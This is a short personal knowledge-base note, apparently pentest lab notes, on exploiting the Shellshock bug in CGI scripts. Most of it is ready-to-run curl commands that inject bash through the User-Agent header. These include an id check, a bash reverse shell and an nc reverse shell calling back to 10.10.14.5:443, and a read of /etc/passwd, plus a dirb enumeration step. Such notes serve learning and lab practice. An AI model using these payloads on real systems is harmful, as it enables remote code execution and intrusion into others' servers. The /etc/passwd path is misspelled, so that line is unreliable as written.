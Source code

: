 ```yaml
---
creation date: January 25th 2022
last modified date: January 25th 2022
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[03 - Content/Shellshock]]  
```bash
curl -k -H "user-agent: () { :; }; echo; echo; id" https://blah/cgi-bin/index.cgi
```

### Is the webpage running a command? Use Shellshock.

If you see a page in cgi-bin running a command you can use shellshock to gain remote code injection.

you can use this to check for scripts: `dirb [http://10.10.10.56/cgi-bin](http://10.10.10.56/cgi-bin) -X .sh

you can also curl the webpage instead of visiting it directly:

`curl -v 10.10.10.56/cgi-bin/user.sh --proxy 127.0.0.1:8080

to exploit with curl:

`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.5/443 0>&1' [http://10.10.10.56:80/cgi-bin/user.sh](http://10.10.10.56:80/cgi-bin/user.sh) --proxy 127.0.0.1:8080

`curl -H "User-Agent: () { :; }; nc -e /bin/sh 10.10.14.5 443" 10.10.10.56/cgi-bin/user.sh

`curl -H "User-Agent: () { :; };/bin/cat /etc/paswd" 10.10.10.56/cgi-bin/user.sh

There is a Metasploit module for shellshock

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 25th 2022 (01:20 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
